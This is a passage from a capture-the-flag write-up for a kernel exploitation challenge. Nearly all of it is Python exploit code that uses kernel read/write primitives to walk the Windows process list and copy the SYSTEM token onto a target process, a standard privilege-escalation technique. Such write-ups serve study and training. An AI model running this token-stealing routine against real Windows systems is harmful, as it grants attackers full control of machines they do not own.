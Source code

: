 ```py  
print('[*] secret_store_base', hex(secret_store_base))

def read_at_va(va: int) -> int:  
   return read_at(va - secret_store_base)

def write_to_va(va: int, val: int) -> None:  
   write_to(va - secret_store_base, val)

kernel_offset = kernel_base - secret_store_base  
print('[*] kernel_offset @', hex(kernel_offset))

print('[*] ok we are ready')

PsInitialSystemProcess_off = 0xD107E0  
ActiveProcessLinks_off = 0x448  
Token_off = 0x4b8  
Pid_off = 0x440

PsInitialSystemProcess = read_at_va(kernel_base + PsInitialSystemProcess_off)  
print('[*] [PsInitialSystemProcess] ->', hex(PsInitialSystemProcess))

system_token = read_at_va(PsInitialSystemProcess + Token_off)  
print('[*] system_token', hex(system_token))

def get_process(tgt_pid: int) -> int:  
   links = PsInitialSystemProcess + ActiveProcessLinks_off  
   head = links

   while True:  
       links = read_at_va(links + 8)  
       print('[*] links', hex(links))

       if links == head:  
           print('[!] LINKS == HEAD')  
           break

       eprocess = links - ActiveProcessLinks_off  
       print('[*] eprocess', hex(eprocess))

       pid = read_at_va(eprocess + Pid_off)  
       if pid != tgt_pid:  
           continue

       return eprocess

   return 0

target_eprocess = get_process(process_id)  
print('[*] target_eprocess', hex(target_eprocess))

print('[*] overwriting token *crossed fingers*')  
write_to_va(target_eprocess + Token_off, system_token)

print('[*] reading the flag')  
io.sendline(b'3')  
io.interactive()  
```

## Flag

Left as an exercise for the reader (i forgot to save it)  

Original writeup (https://cr3.mov/posts/cccamp23-pwn-securestore/).